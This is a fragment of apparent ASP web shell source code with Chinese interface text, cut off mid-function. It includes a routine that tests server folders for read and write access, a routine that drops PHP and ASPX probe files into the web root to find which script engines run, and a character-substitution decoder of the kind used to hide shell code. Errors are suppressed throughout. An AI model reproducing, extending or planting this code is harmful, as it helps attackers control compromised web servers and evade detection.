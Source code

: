 Function ScReWr(folder)
on error resume next 
Dim FSO,TestFolder,TestFileList,ReWrStr,RndFilename
Set FSO = Server.Createobject(CONST_FSO)
Set TestFolder = FSO.GetFolder(folder)
Set TestFileList = TestFolder.SubFolders
RndFilename = "\temp" & Day(now) & Hour(now) & Minute(now) & Second(now) & ".tmp"
For Each A in TestFileList
Next
If err Then
err.Clear
ReWrStr = "<span style='font-size:11px;'>读</span><font face='webdings' size='1' color=yellow>x</font> "
FSO.CreateTextFile folder & RndFilename,True
If err Then
err.Clear
ReWrStr = ReWrStr & "<span style='font-size:11px;'>写</span><font face='webdings' size='1' color=yellow>x</font> "
Else
ReWrStr = ReWrStr & "<span style='font-size:11px;'>写</span>√ "
FSO.DeleteFile folder & RndFilename,True
End If
Else
ReWrStr = "<span style='font-size:11px;'>读</span>√ "
FSO.CreateTextFile folder & RndFilename,True
If err Then
err.Clear
ReWrStr = ReWrStr & "<span style='font-size:11px;'>写</span><font face='webdings' size='1' color=yellow>x</font> "
Else
ReWrStr = ReWrStr & "<span style='font-size:11px;'>写</span>√ "
FSO.DeleteFile folder & RndFilename,True
End if
End if
Set TestFileList = Nothing
Set TestFolder = Nothing
Set FSO = Nothing
ScReWr = ReWrStr
End Function
function php()
On Error Resume Next
set fso=Server.CreateObject(oBt(0,0))
fso.CreateTextFile(server.mappath("test.php")).Write"<?PHP echo 'Success'?>"
fso.CreateTextFile(server.mappath("test.aspx")).Write"Success"
j"<center><iframe src=test.php width=300 height=100></iframe>&nbsp;&nbsp;&nbsp;&nbsp; <iframe src=test.aspx width=300 height=100></iframe>&nbsp;&nbsp;&nbsp; </center><br><br><p><br><p><br><br><p><br><center>探测WEB脚本<p></font><p><a href='?Action=apjdel'><font size=5 color=red><b>[删除探测文件]</b></font></a></center><tr><td height='20'><center>"
End function
On Error Resume Next
Function King(Kingstr)
arra=array("Q","A","Z","W","S","X","E","D","C","R","F","V","T","G","B","Y","H","N","U","J","M","I","K","L","O","P","q","w","e","r","t","y","u","i","o","p","a","s","d","f","g","h","j","k","l","z","x","c","v","b","n","m","0","9","8","7","6","5","4","3","2","1")
arrb=array("A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z","a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z","1","2","3","4","5","6","7","8","9","0")
kingstr = Replace(Replace(Kingstr,"`",""""),"■", vbCrLf)
For KingI = 1 To Len(Kingstr)
love = 0
For i = 0 To ubound(arra)
If Mid(Kingstr, KingI, 1) = arra(i) Then
NewKing = arrb(i) + NewKing 
love = 1